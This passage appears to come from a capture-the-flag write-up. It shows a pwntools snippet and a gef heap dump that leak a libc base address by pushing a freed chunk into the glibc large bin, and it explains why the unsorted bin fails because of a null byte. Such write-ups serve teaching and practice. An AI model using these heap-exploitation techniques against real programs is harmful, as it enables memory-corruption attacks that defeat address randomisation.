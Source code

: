 i am going to explain what ``alpha()`` and ``decrypt()`` functions does later on .

#### Libc base leaking : 
```python
    add(0, 0x428, b"A"*8)
    add(1 ,0x18, b"B"*8)
    freeze(0)
    free(0)
    add(2, 0x438, b"E" * 8)
    show(0)
    print(p.recvline())
    print(p.recvline())
    libc_base = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) - 0x1e3ff0
    print(hex(libc_base))
```
here i allocated a big chunk so it goes beyong the tcache bin size range so i can get a libc pointer.
chunk with index 1 is for preventing consolidation. freeing the **index 0 chunk** then i add an another chunk which is bigger than the first one to push the first chunk into the large bin. So generally in classic heap exploitation challenges we use unsorted bin to leak libc , in this case if we use unsorted bin it's going to be a dead end since the address of the **head of unsorted bin** in ``main_arena`` contains a ``null byte`` ,  the function **show a bloc** uses ``puts`` to show the content of a bloc and ``puts`` stops in a ``null byte`` so we have to figure out another way to leak the libc. i choose ``large bin`` , ``small bin`` also may works (i didn't try it). so now our heap state is like this.

```
gef➤  heap bins
───────────────────────────────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ─────────────────────────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=63, size=0x410, count=1] ←  Chunk(addr=0x563e88fbc2a0, size=0x410, flags=PREV_INUSE) 
────────────────────────────────────────────────────────────────────────────────────────────────── Fastbins for arena at 0x7fc631bf2ba0 ──────────────────────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────────────────────────────────────────────────── Unsorted Bin for arena at 0x7fc631bf2ba0 ────────────────────────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
───────────────────────────────────────────────────────────────────────────────────────────────── Small Bins for arena at 0x7fc631bf2ba0 ─────────────────────────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────────────────────────────────────────────────── Large Bins for arena at 0x7fc631bf2ba0 ─────────────────────────────────────────────────────────────────────────────────────────────────
[+] large_bins[63]: fw=0x563e88fbc6a0, bk=0x563e88fbc6a0
 →   Chunk(addr=0x563e88fbc6b0, size=0x430, flags=PREV_INUSE)
[+] Found 1 chunks in 1 large non-empty bins.
```

